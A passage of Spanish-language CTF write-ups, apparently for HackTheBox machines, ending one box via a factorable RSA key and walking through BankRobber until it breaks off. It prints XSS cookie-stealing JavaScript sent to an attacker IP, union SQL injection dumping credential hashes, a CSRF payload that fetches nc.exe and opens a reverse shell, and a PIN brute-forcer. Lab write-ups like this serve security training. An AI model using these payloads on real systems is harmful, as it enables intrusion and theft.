\end{Shaded}

aqui vemos la key publica del usuario root, pero no podemos hacer gran cosa con la key publica. Como no parece muy grande, intentamos ver si podemos computar la llave
privada des esta key.

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{python3}

\ImportTok{from}\NormalTok{ Crypto.PublicKey }\ImportTok{import}\NormalTok{ RSA}
\NormalTok{f }\OperatorTok{=} \BuiltInTok{open}\NormalTok{ (}\StringTok{"id_rsa.pub"}\NormalTok{, }\StringTok{"r"}\NormalTok{)}
\NormalTok{key }\OperatorTok{=}\NormalTok{ RSA.importKey(f.read())}
\BuiltInTok{print}\NormalTok{(key.n)}
\BuiltInTok{print}\NormalTok{(key.p)}
\BuiltInTok{print}\NormalTok{(key.q)}
\BuiltInTok{print}\NormalTok{(key.e)}
\end{Highlighting}
\end{Shaded}

Aqui como \texttt{key.n} es demasiado grande, no a sido posible computar \texttt{key.p} o \texttt{key.q} que nos ubiera permitido intentar generar una private key.

Miramos si podemos hacerlo desde \href{http://factordb.com/}{factordb} pero es lo mismo. Pero existen webs para los ctf como \href{https://github.com/Ganapati/RsaCtfTool}{RsaCtfTool}
que podemos usar.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/Ganapati/RsaCtfTool}
\BuiltInTok{cd}\NormalTok{ RsaCtfTool}
\ExtensionTok{python3}\NormalTok{ RsaCtfTool.py --publickey id_rsa.pub --private}
\end{Highlighting}
\end{Shaded}

Esperamos un poco y podemos ver la id\_rsa. Lo copiamos en un ficher id\_rsa y nos conectamos por ssh.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nano}\NormalTok{ id_rsa}
\FunctionTok{chmod}\NormalTok{ 600 id_rsa}
\FunctionTok{ssh}\NormalTok{ -i id_rsa root@10.10.10.34}
\end{Highlighting}
\end{Shaded}

Ya somos root y podemos leer la flag.

\hypertarget{bankrobber}{%
\chapter*{BankRobber}\label{bankrobber}}
\addcontentsline{toc}{chapter}{BankRobber}

\hypertarget{introduccion-46}{%
\section*{Introduccion}\label{introduccion-46}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama BankRobber.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=QaKIzdeEQo4}{\includegraphics{https://img.youtube.com/vi/QaKIzdeEQo4/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-46}{%
\section*{Enumeracion}\label{enumeracion-46}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-46}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-46}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-46}{%
\subsubsection*{Ping}\label{ping-46}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.154}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-46}{%
\subsubsection*{Nmap}\label{nmap-46}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.154}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.154 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,443,445,3306 10.10.10.154 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web Fuzzing &\tabularnewline
443 & https & Web Fuzzing &\tabularnewline
445 & smb & Null session &\tabularnewline
3306 & mysql & Injeccion SQL &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-7}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-7}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.154}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.154 -N}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.154 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows 10 Pro que se llama \textbf{BANKROBBER} en el dominio \textbf{Bankrobber} con un certificado no firmado.
Tambien vemos que no podemos ver los recursos compartidos a nivel de red con un null session.

\hypertarget{analyzando-la-web-29}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-29}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-36}{%
\subsubsection*{Whatweb}\label{whatweb-36}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.154}
\ExtensionTok{whatweb}\NormalTok{ https://10.10.10.154}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.39 Win64 que usa openSSL y PHP 7.3.4

\hypertarget{checkeamos-el-certificado-ssl-1}{%
\subsubsection*{Checkeamos el certificado ssl}\label{checkeamos-el-certificado-ssl-1}}
\addcontentsline{toc}{subsubsection}{Checkeamos el certificado ssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.154:443}
\end{Highlighting}
\end{Shaded}

Aqui no vemos ningun dominio o cosa interesante.

\hypertarget{checkear-la-web-13}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-13}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.154}, Vemos una pagina que habla de bitcoin y nos permite loggear o registrar. Empezamos por crear una cuenta
y nos loggeamos.

Aqui vemos que podemos transferir E-coin a alguien. Le ponemos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Amount}\NormalTok{: 1}
\ExtensionTok{ID}\NormalTok{ of Addressee: 1}
\ExtensionTok{Comment}\NormalTok{ to him/her: EEEEEEEEEE}
\end{Highlighting}
\end{Shaded}

Si transferimos, aparece una popup que nos dice que \texttt{Transfer\ on\ hold.\ An\ admin\ will\ review\ it\ within\ a\ minute.}

\hypertarget{fuzzing-con-wfuzz-17}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-17}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.34/FUZZ}
\end{Highlighting}
\end{Shaded}

Vemos un directorio \texttt{/jailuser} que lista un directorio \texttt{dev} que contiene ficheros. Nos descargamos estos ficheros.

\hypertarget{vulnerability-assessment-33}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-33}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{xss}{%
\subsection*{XSS}\label{xss}}
\addcontentsline{toc}{subsection}{XSS}

Testeamos que accion puede efectuar el administrador y por el mismo tiempo, si el input de comment es vulnerable a un \textbf{XSS}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos montamos un servidor web en python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Modificamos los valores de la transferencia

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Amount}\NormalTok{: 1}
\ExtensionTok{ID}\NormalTok{ of Addressee: 1}
\ExtensionTok{Comment}\NormalTok{ to him/her: }\OperatorTok{<}\NormalTok{script src=}\StringTok{"http://10.10.17.51/diamondjackson.jpg"}\OperatorTok{><}\NormalTok{/script}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vemos que esta vulnerable a XSS porque recibimos una peticion GET.

La idea aqui seria robar la cookie de session del administrador.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Checkeamos nuestra propria cookie de session con Burpsuite

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/BankRobber-mycookie} \caption{get cookie with Burpsuite}\label{fig:unnamed-chunk-83}
   \end{figure}
\item
  Como la cookie esta URL encodeada le damos a Ctrl+Shift+U y copiamos la cookie
\item
  Analyzamos la cookie

  \begin{itemize}
  \item
    Tiene 3 campos, \emph{id} - \emph{username} - \emph{password}
  \item
    Decodificamos el username

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"czR2aXRhcg=="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\CommentTok{#Output}
\ExtensionTok{s4vitar}
\end{Highlighting}
\end{Shaded}
  \item
    Decodificamos el password

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"czR2aXRhcjEyMw=="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\CommentTok{#Output}
\ExtensionTok{s4vitar123}
\end{Highlighting}
\end{Shaded}
  \end{itemize}

  Aqui vemos que la cookie unicamente esta encryptada en base64.
\item
  Intentamos robar la cookie del admin.

  \begin{itemize}
  \item
    Creamos un fichero test.js

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var}\NormalTok{ request }\OperatorTok{=} \KeywordTok{new} \AttributeTok{XMLHttpRequest}\NormalTok{()}\OperatorTok{;}
\VariableTok{request}\NormalTok{.}\AttributeTok{open}\NormalTok{(}\StringTok{'GET'}\OperatorTok{,} \StringTok{'http://10.10.17.51/?cookie='}\OperatorTok{+}\VariableTok{document}\NormalTok{.}\AttributeTok{cookie}\OperatorTok{,} \KeywordTok{true}\NormalTok{)}\OperatorTok{;}
\VariableTok{request}\NormalTok{.}\AttributeTok{send}\NormalTok{()}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}
  \item
    Creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    Modificamos nuevamente los valores de la transferencia

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Amount}\NormalTok{: 1}
\ExtensionTok{ID}\NormalTok{ of Addressee: 1}
\ExtensionTok{Comment}\NormalTok{ to him/her: }\OperatorTok{<}\NormalTok{script src=}\StringTok{"http://10.10.17.51/test.js"}\OperatorTok{><}\NormalTok{/script}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
  \end{itemize}

  Aqui ya vemos la cookie de session del administrador.
\item
  Decodificamos la cookie del admin.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{php}\NormalTok{ --interactive}
\ExtensionTok{php} \OperatorTok{>}\NormalTok{ echo urldecode(}\StringTok{"username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D"}\NormalTok{)}
\CommentTok{#Output}
\VariableTok{username=}\NormalTok{YWRtaW4=; }\VariableTok{password=}\NormalTok{SG9wZWxlc3Nyb21hbnRpYw==}

\BuiltInTok{echo} \StringTok{"YWRtaW4="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\CommentTok{#Output}
\ExtensionTok{admin}

\BuiltInTok{echo} \StringTok{"SG9wZWxlc3Nyb21hbnRpYw=="} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\CommentTok{#Output}
\ExtensionTok{Hopelessromantic}
\end{Highlighting}
\end{Shaded}
\item
  Nos conectamos a la web como el usuario admin.
\end{enumerate}

Hay un link user.txt que nos muestra un mensaje TODO que seria de mover todos los ficheros al Default Xampp folder.
Buscando por internet vemos que este directorio seria \texttt{C:\textbackslash{}xampp\textbackslash{}htdocs}.

En la pagina principal, vemos un panel de administracion. Aqui vemos 2 cosas,

\begin{itemize}
\tightlist
\item
  Un campo que nos permitiria ejecutar comandos en la maquina victima
\item
  Un campo Search users que es en beta. Nos permite buscar usuarios por su ID
\end{itemize}

El campo para ejecutar comandos no funcciona porque tendriamos que estar loggeado desde la maquina victima atacando este servicio por localhost.
Ademas con Burpsuite, vemos que esta utilidad lanza una peticion a \texttt{/admin/backdoorchecker.php} con un parametro \texttt{cmd=...}

Como no podemos hacer gran cosa por el momento, analyzamos el campo de busqueda de usuarios.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\NormalTok{ -}\OperatorTok{>}\NormalTok{ admin}
\ExtensionTok{2}\NormalTok{ -}\OperatorTok{>}\NormalTok{ gio}
\ExtensionTok{3}\NormalTok{ -}\OperatorTok{>}\NormalTok{ s4vitar}
\ExtensionTok{1}\StringTok{' -> There is a problem with your SQL syntax}
\end{Highlighting}
\end{Shaded}

\hypertarget{sql-injection-2}{%
\subsection*{SQL Injection}\label{sql-injection-2}}
\addcontentsline{toc}{subsection}{SQL Injection}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' or 1=1-- - }
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{2,gio}
\StringTok{3,s4vitar}
\end{Highlighting}
\end{Shaded}

Seguimos la guia normal de un SQLI

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Cuantas columnas hay

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' order by 100-- -         -> There is a problem with your SQL syntax}
\StringTok{1'}\NormalTok{ union select 1,2-- -     -}\OperatorTok{>}\NormalTok{ There is a problem with your SQL syntax}
\ExtensionTok{1}\StringTok{' union select 1,2,3-- -}
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{1,2}
\end{Highlighting}
\end{Shaded}

  Vemos que hay 3 columnas y vemos la 1 y la 2.
\item
  Cual es la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' union select 1,database(),3-- -}
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{1,bankrobber}
\end{Highlighting}
\end{Shaded}
\item
  Cual es el usuario que esta actualmente coriendo la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' union select 1,user(),3-- -}
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{1,root@localhost }
\end{Highlighting}
\end{Shaded}
\item
  Cual es la version de la base de datos

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' union select 1,version(),3-- -}
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{1,10.1.38-MariaDB}
\end{Highlighting}
\end{Shaded}
\item
  Cual son las otras bases de datos que existen

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' union select 1,schema_name,3 from information_schema.schemata-- -}
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{1,bankrobber}
\StringTok{1,information_schema}
\StringTok{1,mysql}
\StringTok{1,performance}
\StringTok{1,phpmyadmin}
\StringTok{1,test}
\end{Highlighting}
\end{Shaded}

  S4vi nos adelanta que en la base de datos de bankrobber estan unas credenciales de usuarios, pero que no nos sirben porque ya somos admin.
  miramos por la db mysql
\item
  Buscamos credenciales

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' union select 1,group_concat(User,0x3a,Password),3 from mysql.user-- -}
\StringTok{#Output}
\StringTok{1,admin}
\StringTok{1,root:*F435735A173757E57BD36B09048B8B610FF4D0C4}
\end{Highlighting}
\end{Shaded}
\item
  Crackeo de hash con john

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"root:*F435735A173757E57BD36B09048B8B610FF4D0C4"} \OperatorTok{>}\NormalTok{ credentials.txt}
\ExtensionTok{john}\NormalTok{ --wordlist=/usr/shar/wordlists/rockyou.txt credentials.txt}
\end{Highlighting}
\end{Shaded}

  Vemos que no podemos romper el hash
\item
  Intentamos leer ficheros

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{1}\StringTok{' union select 1,load_file("C:\textbackslash{}\textbackslash{}Windows\textbackslash{}\textbackslash{}System32\textbackslash{}\textbackslash{}drivers\textbackslash{}\textbackslash{}etc\textbackslash{}\textbackslash{}hosts"),3-- -}
\end{Highlighting}
\end{Shaded}

  El fichero \texttt{\textbackslash{}etc\textbackslash{}hosts} no nos interesa en este caso pero hemos podido comprobar si podiamos leer ficheros.

  miramos por el fichero \texttt{C:\textbackslash{}\textbackslash{}xampp\textbackslash{}\textbackslash{}htdocs\textbackslash{}\textbackslash{}admin\textbackslash{}\textbackslash{}backdoorchecker.php} y podemos ver la manera de ejecutar comandos bypasseando los badchars.
\end{enumerate}

La idea aqui seria de ejecutar un comando de typo \texttt{cmd=dir\textbar{}powershell\ -c\ "iwr\ -uri\ http://10.10.17.51/nc.exe\ -Outfile\ \%temp\%\textbackslash{}\textbackslash{}nc.exe";\%temp\%\textbackslash{}\textbackslash{}nc.exe\ -e\ cmd\ 10.10.17.51\ 443}.
El problema aqui sigue siendo el echo de no poder lanzar este comando porque no estamos lanzando esta peticion desde el localhost de la maquina victima.

\hypertarget{vuln-exploit-gaining-access-33}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-33}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{de-un-xss-a-un-xsrf-par-conseguir-un-rce-para-ganar-accesso-al-systema}{%
\subsection*{De un XSS a un XSRF par conseguir un RCE para ganar accesso al systema}\label{de-un-xss-a-un-xsrf-par-conseguir-un-rce-para-ganar-accesso-al-systema}}
\addcontentsline{toc}{subsection}{De un XSS a un XSRF par conseguir un RCE para ganar accesso al systema}

Esto puede funccionar unicamente si el usuario admin que valida las transacciones esta loggeada al panel de administracion desde la propria maquina victima.

Intentamos y miramos.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un ficher pwned.js

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var}\NormalTok{ request }\OperatorTok{=} \KeywordTok{new} \AttributeTok{XMLHttpRequest}\NormalTok{()}\OperatorTok{;}
\NormalTok{params }\OperatorTok{=} \StringTok{'cmd=dir|powershell -c "iwr -uri http://10.10.17.51/nc.exe -Outfile %temp%}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{nc.exe";%temp%}\SpecialCharTok{\textbackslash{}\textbackslash{}}\StringTok{nc.exe -e cmd 10.10.17.51 443'}\OperatorTok{;}
\VariableTok{request}\NormalTok{.}\AttributeTok{open}\NormalTok{(}\StringTok{'POST'}\OperatorTok{,} \StringTok{'http://localhost/admin/backdoorchecker.php'}\OperatorTok{,} \KeywordTok{true}\NormalTok{)}\OperatorTok{;}
\VariableTok{request}\NormalTok{.}\AttributeTok{setRequestHeader}\NormalTok{(}\StringTok{'Content-Type'}\OperatorTok{,} \StringTok{'application/x-www-form-urlencoded'}\NormalTok{)}\OperatorTok{;}
\VariableTok{request}\NormalTok{.}\AttributeTok{send}\NormalTok{(params)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Preparamos el nc.exe y creamos un servidor web con python

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ nc.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/sqlninja/apps/nc.exe .}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una transaccion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Amount}\NormalTok{: 1}
\ExtensionTok{ID}\NormalTok{ of Addressee: 1}
\ExtensionTok{Comment}\NormalTok{ to him/her: }\OperatorTok{<}\NormalTok{script src=}\StringTok{"http://10.10.17.51/pwned.js"}\OperatorTok{><}\NormalTok{/script}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Hemos ganado accesso a la maquina victima como el usuario cortin y podemos visualizar la flag.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\ExtensionTok{bankrobber}\NormalTok{\textbackslash{}cortin}

\BuiltInTok{type}\NormalTok{ C:\textbackslash{}Users\textbackslash{}cortin\textbackslash{}Desktop\textbackslash{}user.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-30}{%
\section*{Privilege Escalation}\label{privilege-escalation-30}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-39}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-39}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}\NormalTok{ /priv}
\end{Highlighting}
\end{Shaded}

No tenemos privilegios interesantes como el \textbf{SeImpersonatePrivilege}, el \textbf{SeLoadPrivilege} o el \textbf{SeBackupPrivilege}.
Teniendo este privilegio, podriamos hacer una copia (backup) de seguridad de elemento del systema como el \textbf{NTDS} que nos permitirian
recuperar los hashes de los usuarios del systema, entre ellos el usuario Administrator.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Administrator}
\BuiltInTok{cd}\NormalTok{ C:\textbackslash{}}
\NormalTok{netstat -nat}
\end{Highlighting}
\end{Shaded}

Aqui vemos un ejecutable llamado \texttt{bankv2.exe}. En este caso no lo vamos a analyzar. El \textbf{netstat} nos muestra un puerto \textbf{910} que no hemos visto
con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{netstat}\NormalTok{ -ano}
\ExtensionTok{tasklist}
\end{Highlighting}
\end{Shaded}

El comando \texttt{netstat\ -ano} nos permite ver el UID de los puertos abiertos y con el comando \texttt{tasklist}, miramos que servicio core para este UID.
En este caso vemos que es el mismo \textbf{bankv2.exe}.

Miramos con el \textbf{nc.exe} lo que es.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok\NormalTok{\textbackslash{}nc.exe 127.0.0.1 910}
\CommentTok{#Output}
\ExtensionTok{Please}\NormalTok{ enter your super secret 4 digit PIN code to login:}
\end{Highlighting}
\end{Shaded}

Como el puerto esta interno a la maquina, vamos a tirar de \textbf{chisel} para exponerlo a nuestra maquina de atacante y vamos a bruteforcear el pin con
un script en python.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descargamos chisel

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz}
\FunctionTok{mv}\NormalTok{ chisel_1.7.6_windows_amd64.gz chisel.exe.gz}
\FunctionTok{gunzip}\NormalTok{ chisel.exe.gz}
\end{Highlighting}
\end{Shaded}
\item
  Transferimos chisel a la maquina victima

  \begin{itemize}
  \item
    Desde la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    Desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ %temp%}
\ExtensionTok{powershell}\NormalTok{ iwr -uri http://10.10.17.51/chisel.exe -OutFile C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}chisel.exe}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Preparamos el chisel para linux en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel/}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ chisel}

\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el cliente desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{chisel.exe}\NormalTok{ client 10.10.17.51:1234 R:910:127.0.0.1:910}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ahora ya tenemos accesso al puerto 910 de la maquina victima desde nuestra maquina.

Ya podemos crear un script en python para que ataque este puerto. Pero primero creamos un diccionario de pins con crunch

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crunch}\NormalTok{ 4 4 -t %%%% }\OperatorTok{>}\NormalTok{ pins.txt}
\end{Highlighting}
\end{Shaded}

Creamos el \texttt{exploit.py}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ pdb}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{# Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler}

\KeywordTok{def}\NormalTok{ tryPins():}
\NormalTok{    f }\OperatorTok{=} \BuiltInTok{open}\NormalTok{(}\StringTok{"pins"}\NormalTok{, }\StringTok{"r"}\NormalTok{)}

\NormalTok{    p1.log.progress(}\StringTok{"Fuerza bruta"}\NormalTok{)}
\NormalTok{    p1.status(}\StringTok{"Iniciando proceso de fuerza bruta"}\NormalTok{)}
\NormalTok{    time.sleep(}\DecValTok{2}\NormalTok{)}

    \ControlFlowTok{for}\NormalTok{ pin }\KeywordTok{in}\NormalTok{ f.readlines():}
\NormalTok{        p1.status(b}\StringTok{"Probando con PIN "} \OperatorTok{+}\NormalTok{ pin.strip(}\StringTok{'}\CharTok{\textbackslash{}n}\StringTok{'}\NormalTok{).encode())}

\NormalTok{        s }\OperatorTok{=}\NormalTok{ socket.socket(socket.AF_INET, socket.SOCK_STREAM)}
\NormalTok{        s.}\ExtensionTok{connect}\NormalTok{((}\StringTok{"127.0.0.1"}\NormalTok{, }\DecValTok{910}\NormalTok{))}

\NormalTok{        data }\OperatorTok{=}\NormalTok{ s.recv(}\DecValTok{4096}\NormalTok{)}

\NormalTok{        s.send(pin.encode())}

\NormalTok{        data }\OperatorTok{=}\NormalTok{ s.recv(}\DecValTok{1024}\NormalTok{)}

        \ControlFlowTok{if} \StringTok{"Access denied"} \KeywordTok{not} \KeywordTok{in}\NormalTok{ data:}
\NormalTok{            p1.success(b}\StringTok{"El PIN es "} \OperatorTok{+}\NormalTok{ pin.strip(}\StringTok{'}\CharTok{\textbackslash{}n}\StringTok{'}\NormalTok{).encode())}
\NormalTok{            sys.exit(}\DecValTok{0}\NormalTok{)}

\ControlFlowTok{if} \VariableTok{__name__} \OperatorTok{==} \StringTok{'__main__'}\NormalTok{:}
\NormalTok{    tryPins()}
\end{Highlighting}
\end{Shaded}

Si lanzamos el script, encontramos el pin.

Vemos que podemos ejecutar transferencia de e-coin con este programa, intentamos cosas

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Please}\NormalTok{ enter the amount of e-coins you would like to transfer:}
\NormalTok{[$] }\ExtensionTok{10}
\NormalTok{[$] }\ExtensionTok{Transfering} \VariableTok{$1}\NormalTok{0 using our e-coin transfer application.}
\NormalTok{[$] }\ExtensionTok{Executing}\NormalTok{ e-coin transfer tool: C:\textbackslash{}Users\textbackslash{}Documents\textbackslash{}transfer.exe}

\ExtensionTok{Please}\NormalTok{ enter the amount of e-coins you would like to transfer:}
\NormalTok{[$] }\ExtensionTok{asfessefseafews}
\NormalTok{[$] }\ExtensionTok{Transfering} \VariableTok{$asfessefseafews}\NormalTok{ using our e-coin transfer application.}
\NormalTok{[$] }\ExtensionTok{Executing}\NormalTok{ e-coin transfer tool: C:\textbackslash{}Users\textbackslash{}Documents\textbackslash{}transfer.exe}

\ExtensionTok{Please}\NormalTok{ enter the amount of e-coins you would like to transfer:}
\NormalTok{[$] }\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\NormalTok{[$] }\ExtensionTok{Transfering} \VariableTok{$AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}\NormalTok{ using our e-coin transfer application.}
\NormalTok{[$] }\ExtensionTok{Executing}\NormalTok{ e-coin transfer tool: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\end{Highlighting}
\end{Shaded}

Aqui no parece que estamos frente a un BufferOverflow pero vemos que a partir de una serie de caracteres, sobre escribimos el ejecutable que permite
enviar los e-coins.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un pattern

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{/usr/share/metasploit-framework/tools/exploit/pattern_create.rb}\NormalTok{ -l 100}
\CommentTok{#Output}
